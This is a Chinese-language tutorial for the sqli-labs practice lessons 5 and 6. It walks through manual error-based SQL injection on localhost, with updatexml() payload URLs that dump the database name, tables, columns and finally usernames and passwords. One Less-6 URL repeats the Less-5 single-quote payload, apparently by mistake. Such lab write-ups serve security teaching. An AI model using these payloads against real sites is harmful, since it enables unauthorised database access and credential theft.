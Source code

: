 # 原创
：  （手工）【sqli-labs5-6】GET方法、单双引号、报错注入：基本步骤、错误注入过程

# （手工）【sqli-labs5-6】GET方法、单双引号、报错注入：基本步骤、错误注入过程

**目录**

[一、错误注入（手工）SQL注入基本步骤：](#SQL%E6%B3%A8%E5%85%A5%E5%9F%BA%E6%9C%AC%E6%AD%A5%E9%AA%A4%EF%BC%9A)

[二、Less5（GET-Double injection-Single Quotes -String）](#Less5%EF%BC%88GET-Double%20injection-Single%20Quotes%20-String%EF%BC%89)

[2.1、简介：（单引号+报错注入）](#%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E5%8D%95%E5%BC%95%E5%8F%B7%2B%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[2.2、第一步：注入点测试](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[2.3、第二步：查询字段数](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E6%9F%A5%E8%AF%A2%E5%AD%97%E6%AE%B5%E6%95%B0)

[2.4、第三步：查看数据库基本信息](#%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF)

[2.5、第四步：爆数据库](#%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE%E5%BA%93)

[2.6、第五步：爆数据库表](#%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE%E5%BA%93%E8%A1%A8)

[2.7、第六步：爆字段](#%E7%AC%AC%E5%85%AD%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[2.8、第七步：爆数据](#%E7%AC%AC%E4%B8%83%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

[三、Less6（GET-Double injection-Double Quotes -String）](#%E4%B8%89%E3%80%81Less6%EF%BC%88GET-Double%20injection-Double%20Quotes%20-String%EF%BC%89)

[ 3.1、简介：（双引号+报错注入）](#%C2%A03.1%E3%80%81%E7%AE%80%E4%BB%8B%EF%BC%9A%EF%BC%88%E5%8F%8C%E5%BC%95%E5%8F%B7%2B%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%EF%BC%89)

[3.2、第一步：注入点测试](#%C2%A03.2%E3%80%81%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%B3%A8%E5%85%A5%E7%82%B9%E6%B5%8B%E8%AF%95)

[3.3、第二步：查询字段数](#3.3%E3%80%81%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E6%9F%A5%E8%AF%A2%E5%AD%97%E6%AE%B5%E6%95%B0)

[3.4、第三步：查看数据库基本信息](#3.4%E3%80%81%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF)

[3.5、第四步：爆数据库](#3.5%E3%80%81%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE%E5%BA%93)

[3.6、第五步：爆数据库表](#3.6%E3%80%81%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE%E5%BA%93%E8%A1%A8)

[3.7、第六步：爆字段](#3.7%E3%80%81%E7%AC%AC%E5%85%AD%E6%AD%A5%EF%BC%9A%E7%88%86%E5%AD%97%E6%AE%B5)

[3.8、第七步：爆数据](#%C2%A03.8%E3%80%81%E7%AC%AC%E4%B8%83%E6%AD%A5%EF%BC%9A%E7%88%86%E6%95%B0%E6%8D%AE)

---


## 一、错误注入（手工）SQL注入基本步骤：

> 
第一步：注入点测试
第二步：查询字段数
第三步：查询数据库的基本信息
第四步：爆数据库名
第五步：爆数据库表
第六步：爆字段
第七步：爆数据


---


---


## 二、Less5（GET-Double injection-Single Quotes -String）

> 
<h3>2.1、简介：（单引号+报错注入）</h3>
请求方法：GET
方法：错误回显


> 
<h3>2.2、第一步：注入点测试</h3>
测试id=1，没有显示数据 
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1

将数据扩大到1000了，仍没有显示位
所以不能使用联合查询
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1000


 加上单引号后，发现会返回报错信息，且可以知道是单引号闭合的
可以考虑使用报错注入




> 
<h3>2.3、第二步：查询字段数</h3>
输入为2时，报错字段数不符
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and 1=0 union select 1,2--+

 当为3的时候，就没有报错，字段数正确
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and 1=0 union select 1,2,3--+




> 
<h3>2.4、第三步：查看数据库基本信息</h3>
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+




> 
<h3>2.5、第四步：爆数据库</h3>
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

注：
在ASCII码表中，0x7e这个十六进制数代表符号~，~这个符号在xpath语法中是不存在的，因此总能报错




> 
<h3>2.6、第五步：爆数据库表</h3>
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1)--+




> 
<h3>2.7、第六步：爆字段</h3>
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),1,31),0x7e),1) --+<br/>  




> 
<h3>2.8、第七步：爆数据</h3>
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1)--+


http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),31,32),0x7e),1)--+


将31,32继续往后移，就可以获得，更多的数据


---


---


## 三、Less6（GET-Double injection-Double Quotes -String）

> 
<h3> 3.1、简介：（双引号+报错注入）</h3>
请求方法：GET
方法：错误回显


> 
<h3>3.2、第一步：注入点测试</h3>
测试id=1，没有显示数据 
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1 


将数据扩大到1000了，仍没有显示位
所以不能使用联合查询
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1000


 加上单引号后，没有报错，说明不是单引号闭合
加上双引号后，发现会返回报错信息，且可以知道是双引号闭合的
可以考虑使用报错注入





> 
<h3>3.3、第二步：查询字段数</h3>
输入为2时，报错字段数不符
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1" and 1=0 union select 1,2--+


 当为3的时候，就没有报错，字段数正确
http://localhost:8080/sqli-labs-master/Less-5/<br/> ?id=1' and 1=0 union select 1,2,3--+





> 
<h3>3.4、第三步：查看数据库基本信息</h3>
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1" and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+





> 
<h3>3.5、第四步：爆数据库</h3>
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

注：
在ASCII码表中，0x7e这个十六进制数代表符号~，~这个符号在xpath语法中是不存在的，因此总能报错





> 
<h3>3.6、第五步：爆数据库表</h3>
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1" and updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) --+





> 
<h3>3.7、第六步：爆字段</h3>
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1" and updatexml(1,concat(0x7e,substr((select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()),1,31),0x7e),1)--+





> 
<h3>3.8、第七步：爆数据</h3>
http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1" and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),1,31),0x7e),1)--+



http://localhost:8080/sqli-labs-master/Less-6/<br/> ?id=1" and updatexml(1,concat(0x7e,substr((select group_concat(concat(username,'^',password)) from users),31,32),0x7e),1)--+



将31,32继续往后移，就可以获得，更多的数据

